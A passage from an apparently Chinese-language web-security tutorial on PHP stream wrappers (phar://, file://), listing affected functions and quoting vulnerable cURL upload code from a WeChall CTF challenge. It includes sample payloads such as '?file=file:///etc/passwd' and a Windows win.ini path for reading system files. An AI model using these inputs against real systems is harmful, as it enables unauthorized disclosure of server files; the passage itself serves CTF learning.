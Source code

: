 #### 特性 `Allows Reading`

* 影响函数

```
fopen()
file_get_contents()
imagecreatefromgif()
```

### phar://

与zip协议区别就是 phar 是用/来分隔而不是 #

```
?file=phar://php.zip/php.jpg
```

### file://

访问本地文件系统

[http://www.wechall.net/challenge/crappyshare/index.php](http://www.wechall.net/challenge/crappyshare/index.php)

[http://www.wechall.net/challenge/crappyshare/crappyshare.php](http://www.wechall.net/challenge/crappyshare/crappyshare.php)

* 样例

```
?file=file:///etc/passwd
?file=file://c:/windows/win.ini
```

* 影响函数

```
file_get_contents()
```

* 实例

在这题CTF中，攻击的关键点在于：curl_exec($ch)

```php
function upload_please_by_url($url)
{
　　if (1 === preg_match('#^[a-z]{3,5}://#', $url)) # Is URL?
　　{
　　　　$ch = curl_init($url);
　　　　curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
　　　　curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
　　　　curl_setopt($ch, CURLOPT_FAILONERROR, true);
　　　　if (false === ($file_data = curl_exec($ch)))
　　　　{
　　　　　　htmlDisplayError('cURL failed.');
　　　　}
　　　　else
　　　　{
　　　　　　// Thanks
　　　　　　upload_please_thx($file_data);
　　　　}
　　}
　　else
　　{
　　　　htmlDisplayError('Your URL looks errorneous.');
　　}
}
```


[5]: http://php.net/manual/zh/features.file-upload.post-method.php